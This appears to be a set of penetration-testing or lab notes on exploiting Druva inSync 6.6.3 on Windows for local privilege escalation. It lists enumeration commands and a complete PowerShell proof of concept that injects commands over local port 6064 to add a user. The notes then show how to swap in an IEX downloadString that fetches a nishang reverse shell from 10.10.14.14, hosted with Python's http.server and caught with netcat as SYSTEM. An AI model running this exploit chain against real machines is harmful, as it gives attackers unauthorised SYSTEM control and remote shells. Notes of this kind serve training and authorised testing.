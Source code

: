 **Enumerating Installed Programs
```
wmic product get name
```
- Druva inSync 6.6.3 command injection: https://www.exploit-db.com/exploits/49211

**Enumerating Local Ports
```
netstat -ano | findstr 6064
```

**Enumerating Process ID
```
get-process -Id 3324
```

**Enumerating Running Service
```
get-service | ? {$_.DisplayName -like 'Druva*'}
```

## Druva inSync Windows Client Local Privilege Escalation Example

**Druva inSync PowerShell PoC
```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

**Modifying PowerShell PoC
Download: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
Rename to shell.ps1
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 9443
```

Modify the $cmd in the Druva inSync exploit PoC script
```
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.14:8000/shell.ps1')"
```

**Host shell.ps1 on Server
```
python3 -m http.server
```

**Catching the SYSTEM Shell
```
nc -lvnp 9443
```

